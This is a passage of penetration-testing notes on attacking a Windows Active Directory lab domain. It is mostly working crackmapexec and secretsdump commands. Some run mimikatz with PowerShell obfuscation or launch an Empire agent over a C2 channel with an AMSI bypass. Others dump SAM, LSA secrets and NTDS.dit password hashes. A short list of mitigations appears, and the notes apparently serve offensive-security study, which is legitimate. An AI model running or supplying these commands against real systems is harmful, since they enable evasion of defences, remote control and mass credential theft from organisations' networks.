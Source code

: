 We can load powershell scripts in memory and obfuscate them

  Powershell Obfuscation:

  Options for PowerShell script obfuscation

  --obfs                Obfuscate PowerShell scripts
  --clear-obfscripts    Clear all cached obfuscated PowerShell scripts

  >  crackmapexec smb 192.168.125.133 -u fcastle -p 'Password1' -d HYDRA.local -M mimikatz --obfs

  
 We can also use empire framework module to get a agent back for a c2 channel. We can also add custom amsi bypass file
  
>  crackmapexec smb 192.168.125.133 -u fcastle -p 'Password1' -d HYDRA.local -M empire_exec -o LISTENER=final --amsi-bypass bypassfile
  
- Mitigations

1. Avoid reusing local admin passwords across the network
2. only set privelges to user as they require (principle of least privilege)
3. Set strong complex password policy
4. use PAM and autorotate passwords on daily basis 

## Dump Hashes in a network

#### Remotely

- we can use multiple flags like dump sam,lsa secrets,ntds.dit etc

> crackmapexec smb IP-RANGE/ADDRESSES -u username -H hash or password -d domainname --sam or --lsa or --ntds


we can try to dump ntds using two different methods

1) --ntds
2) --ntds vss (Volume shadow method)



> secretsdump.py domain/username:password@IPADDRESS or secretsdump.py domain/username@IPADDRESS -H hash

> secretsdump.py -just-dc-ntlm domain.name/username@IPADDRESS

Or Locally in our machine by copying dumped SAM hives


> python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam samfile -system systemfile LOCAL


- NTDS.dit Dumping

Good resource= https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration

LOCALLY :

If we have access to domain controller we can directly dump ntds.dit through powershell
